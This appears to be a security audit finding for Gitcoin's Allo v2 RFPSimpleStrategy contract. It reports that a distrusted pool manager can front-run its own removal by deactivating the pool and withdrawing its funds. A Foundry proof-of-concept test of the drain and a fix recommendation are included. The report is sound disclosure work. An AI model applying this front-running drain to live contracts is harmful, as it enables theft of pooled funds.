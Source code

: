 Rich Jade Wolf

medium

# Front-running risk in the process of removing pool managers
The protocol contains logic to add or remove pool managers. In the event that a pool manager loses the trust of the pool administrator, the administrator may wish to remove that manager. However, there is a vulnerability where the untrusted pool manager can front-run the administrator's transaction and empty the pool.

## Vulnerability Detail
1. The admin calls the `removePoolManager` function to remove an untrusted pool manager.
2. The untrusted pool manager also front-runs the admin's transaction by calling the `setPoolActive(false)` function to deactivate the pool and the `withdraw` function to empty the funds.

## Impact
This vulnerability allows untrusted managers to empty the pool's funds if they choose to do so.

## Code Snippet
```solidity
    function test_untrustedPoolMangerAttack() public {
        address untrustedManager = pool_manager1();

        // fund pool
        vm.deal(pool_admin(), 1e19);
        vm.prank(pool_admin());
        allo().fundPool{value: 1e19}(poolId, 1e19);

        vm.prank(pool_admin());
        allo().addPoolManager(poolId, untrustedManager);
        assertTrue(allo().isPoolManager(poolId, untrustedManager));
        
        // --- Start attack transaction
        vm.prank(untrustedManager); 
        strategy.setPoolActive(false);

        vm.prank(untrustedManager); 
        strategy.withdraw(9.9e17);
        // --- End attack transaction

        assertEq(address(allo()).balance, 0);
        assertEq(untrustedManager.balance, 9.9e17);
    } 
```

## Tool used
`forge test`
The snippet can be copied to `test/foundry/strategies/RFPSimpleStrategy.t.sol` and executed

## Recommendation
Consider [limiting the rights](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L295C14-L295C22) of managers to withdraw funds from the pool.